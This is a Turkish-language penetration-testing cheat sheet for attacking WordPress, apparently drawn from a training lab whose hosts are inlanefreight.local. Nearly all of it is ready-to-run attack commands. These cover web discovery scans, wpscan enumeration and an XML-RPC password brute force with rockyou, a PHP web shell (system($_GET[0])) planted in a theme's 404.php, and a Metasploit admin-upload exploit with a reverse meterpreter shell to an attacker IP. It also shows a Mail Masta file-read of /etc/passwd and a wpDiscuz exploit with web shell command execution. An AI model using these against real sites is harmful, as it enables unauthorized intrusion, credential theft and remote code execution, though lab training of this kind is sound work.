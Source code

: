```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/attacking-common-applications-cheat-sheet/","created":"2024-12-28T01:20:04.039+03:00","updated":"2025-01-05T14:16:42.872+03:00"}
---
```



#### Nmap - Web Discovery

```shell-session
nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list 
```


#### EyeWitness ile Web Uygulamalarının Ekran Görüntülerini Alma

```
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```


#### Aquatone ile Nmap Çıktılarıyla Web Uygulamalarını Keşfetme ve Ekran Görüntüsü Alma

```
cat web_discovery.xml | ./aquatone -nmap
```


----

### WordPress Tespiti

```
curl -s http://blog.inlanefreight.local | grep WordPress
```


### WordPress Tema Bilgisi Tespiti

```
curl -s http://blog.inlanefreight.local/ | grep themes
```


### WordPress Plugin Bilgisi Tespiti

```shell-session
curl -s http://blog.inlanefreight.local/?p=1 | grep plugins
```


### WordPress Zafiyet Tarama ve Numaralandırma

```
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```


---

### WPScan ile XML-RPC Üzerinden WordPress Şifre Kırma Saldırısı

```shell-session
sudo wpscan --password-attack xmlrpc -t 20 -U username -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```


### WordPress Üzerinden PHP Dosyası Düzenleyerek Sistem Komutları Çalıştırma

- **Appearance > Theme Editor**
- **Transport Gravity'yi pas geç**
- **Twenty Nineteen temasını seç**
- **404.php dosyasını düzenle**
- **Kod ekle:**
- Update File  

```php
system($_GET[0]);
```

http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=whoami


### Metasploit ile WordPress Yönetici Panelinden Shell Erişimi Alma

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```


### Mail Masta Plugin'i ile WordPress'te Dosya Okuma Zafiyeti Kullanımı

```
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```



### WP Discuz Eklentisi ile WordPress Zafiyetinin Kullanımı

```
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

 * -p geçerli bir path'in

Yazılan exploit başarısız olabilir, ancak yüklenen web shell'i kullanarak komutları çalıştırmak için cURL kullanabiliriz.

```
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```


